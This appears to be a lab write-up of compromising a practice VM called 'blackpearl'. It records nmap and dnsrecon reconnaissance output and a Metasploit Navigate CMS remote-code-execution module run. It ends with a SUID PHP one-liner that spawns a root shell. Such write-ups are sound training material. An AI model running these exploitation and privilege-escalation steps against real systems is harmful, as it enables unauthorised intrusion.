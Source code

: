 # Scanning & Enumeration

## Nmap

Scan subnet:
```bash
nmap -sn 10.0.0.0/24

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-08 16:37 CET
Nmap scan report for 10.0.0.11
Host is up (0.00076s latency).
Nmap scan report for 10.0.0.17
Host is up (0.00054s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 2.52 seconds
```

Scan all ports:
```bash
# Nmap 7.94SVN scan initiated Fri Mar  8 16:38:10 2024 as: nmap -p- -oN blackpearl_all.nmap 10.0.0.17
Nmap scan report for 10.0.0.17
Host is up (0.00048s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

# Nmap done at Fri Mar  8 16:38:15 2024 -- 1 IP address (1 host up) scanned in 4.84 seconds
```

Scan services on open ports:
```bash
# Nmap 7.94SVN scan initiated Fri Mar  8 16:39:06 2024 as: nmap -p 22,53,80 -sV -sC -oN blackpearl_open.nmap 10.0.0.17
Nmap scan report for 10.0.0.17
Host is up (0.00033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  8 16:39:20 2024 -- 1 IP address (1 host up) scanned in 14.44 seconds
```

UDP scan:
```bash
# Nmap 7.94SVN scan initiated Fri Mar  8 16:45:48 2024 as: nmap -sU -oN blackpearl_udp.nmap 10.0.0.17
Nmap scan report for 10.0.0.17
Host is up (0.00026s latency).
Not shown: 998 closed udp ports (port-unreach)
PORT   STATE         SERVICE
53/udp open          domain
68/udp open|filtered dhcpc
MAC Address: 08:00:27:C6:03:EC (Oracle VirtualBox virtual NIC)

# Nmap done at Fri Mar  8 17:02:38 2024 -- 1 IP address (1 host up) scanned in 1009.23 seconds
```

UDP scan open:
```bash
# Nmap 7.94SVN scan initiated Fri Mar  8 17:10:52 2024 as: nmap -sU -p 53,68 -sV -sC -oN blackpearl_udp_open.nmap 10.0.0.17
Nmap scan report for 10.0.0.17
Host is up (0.00033s latency).

PORT   STATE         SERVICE VERSION
53/udp open          domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
|_dns-recursion: Recursion appears to be enabled
68/udp open|filtered dhcpc
MAC Address: 08:00:27:C6:03:EC (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  8 17:12:46 2024 -- 1 IP address (1 host up) scanned in 114.38 seconds
```

## HTTP

Directory enumeration with gobuster:
![[Pasted image 20240308164812.png]]
=> /secret
```
OMG you got r00t !


Just kidding... search somewhere else. Directory busting won't give anything.

<This message is here so that you don't waste more time directory busting this particular website.>

- Alek 

```

Use *dnsrecon* to enumerate domain names on the remote dns server via reverse DNS lookups:
```bash
dnsrecon -r 127.0.0.0/24 -n 10.0.0.17
```
Args:
`-r`: Reverse lookup IP address range
`-n`: Name server

![[Pasted image 20240308173454.png]]

Edit the file `/etc/hosts and add the line:
`10.0.0.17       blackpearl.tcm`

Now, wwhen we navigate to *http://blackpearl.tcm* in our browser, the browser will set the Host header to *blackpearl.tcm*, which in this case is a virtual host. And thus we are able to access the homepage of that virtual host.

![[Pasted image 20240308173740.png]]

Enumerate directories:
![[Pasted image 20240308174002.png]]
=> /navigate

Enumerate files:
![[Pasted image 20240308174103.png]]
=> index.php: this is the PHPinfo page
=> crossdomain.xml:
![[Pasted image 20240308174137.png]]

Enumerate dir of /navigate:
![[Pasted image 20240308174243.png]]

Enum files of /navigate:
![[Pasted image 20240308174319.png]]

At http://blackpearl.tcm/navigate/login.php there is a login page:
![[Pasted image 20240308174727.png]]
In the bottom right corner we can see that this is a CMS and also the version:
![[Pasted image 20240308174809.png]]

Googling "navigate cms" we come across an RCE exploit for the software:
https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/
# Exploitation

Msfconsole search "navigate":
![[Pasted image 20240308175008.png]]
```msfconsole
set RHOSTS blackpearl.tcm
run
```
=> this give as a meterpreter shell.
With the meterpreter command `shell` we get a system shell.

Optional:
We could spawn a TTY shell (https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html)

Download *linpeas.sh* from attacker http server and execute it.
`/usr/bin/php7.3` is a SUID binary:
![[Pasted image 20240308220255.png]]

From https://gtfobins.github.io/gtfobins/php/ SUID just use the last line with the php binary: 
```bash
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
```

Success! We got a root shell:
![[Pasted image 20240308221008.png]]
